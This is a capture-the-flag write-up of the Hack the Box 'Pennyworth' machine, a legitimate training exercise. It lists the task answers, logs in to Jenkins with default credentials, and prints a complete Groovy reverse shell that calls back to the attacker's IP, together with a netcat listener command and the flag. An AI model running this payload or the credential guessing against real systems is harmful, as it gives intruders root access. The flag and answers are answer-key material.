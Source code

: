 # Pennyworth
* Source: [Hack the Box](https://hackthebox.com/)
* Challenge: Pennyworth
* Topic: [[Java]] [[CVE]]
* Difficulty: Very easy
* Date: 17-04-2022
* Author: [DjikstraCS](https://github.com/DjikstraCS)

---
## Tasks
1. What does the acronym CVE stand for? 
- **Common Vulnerabilities and Exposures**
2. What do the three letters in CIA, referring to the CIA triad in cybersecurity, stand for? 
 - **confidentiality, integrity, availability**
3. What is the version of the service running on port 8080? 
- **Jetty 9.4.39.v20210325**
4. What version of Jenkins is running on the target? 
- **2.289.1**
5. What type of script is accepted as input on the Jenkins Script Console? 
- **groovy**
6. What would the "String cmd" variable from the Groovy Script snippet be equal to if the Target VM was running Windows? 
- **cmd.exe**
7. What is a different command than "ip a" we could use to display our network interfaces' information on Linux? 
- **ifconfig**
8. What switch should we use with netcat for it to use UDP transport mode? 
- **-u**
9. What is the term used to describe making a target host initiate a connection back to the attacker host? 
- **reverse shell**

---
## Flag:
nmap:

```console
┌──(kali㉿kali)-[~]
└─$ nmap -n -sC -sV 10.129.111.154
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-16 18:07 EDT
Nmap scan report for 10.129.111.154
Host is up (0.078s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Jetty 9.4.39.v20210325
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
|_http-server-header: Jetty(9.4.39.v20210325)
| http-robots.txt: 1 disallowed entry 
|_/

Nmap done: 1 IP address (1 host up) scanned in 12.81 seconds
```

We have Jetty running on port 8080. Also, nmap found an entry in /robots.txt.

If we open the page, we see a login page.

![](Pasted%20image%2020220417133302.png)

The robots.txt file is simply telling search engines not to index the site.

![](Pasted%20image%2020220417133502.png)

We can try some default credentials. 

User:pass `root:password`

![](Pasted%20image%2020220417141023.png)

We are in.

Looking around, we find a Script console under the Manage Jenkins tab. It interprets Groovy scripts.

All we have to do now is make a Groovy script that can execute a reverse shell on the server, meaning that the server will try to initiate a shell connection back to us.

![](Pasted%20image%2020220417144615.png)

Searching for a payload, we find [this](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#groovy) cheat sheet detailing a reverse shell for Groovy. 

```
String host="10.10.14.15";
int port=4444;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

We can add

```
Thread.start {
    // Reverse shell here
}
```

To make the reverse shell more stealthy on the target

Before we can execute the payload we need to connect we need to run a netcat listener on port 4444.

Command:

`nc -lvnp 4444`

`l`: Listening mode

`v`: Verbose mode

`p`: Specify port, in this case 4444.

`n`: No DNS. Numeric IP only.

```console
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444            
listening on [any] 4444 ...
```

Now we can execute the payload.

It worked, netcat received a connection from the host. We are now logged in as root.

```console
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444            
listening on [any] 4444 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.90.88] 44516
whoami
root
```

![](Pasted%20image%2020220417152724.png)

Looking around:

```console
#cd /root
#ls
flag.txt
snap
#cat flag.txt
9cdfb439c7876e703e307864c9167a15
```

We got the final flag.

**Flag:** `9cdfb439c7876e703e307864c9167a15`

---
**Tags:** [[HackTheBox]]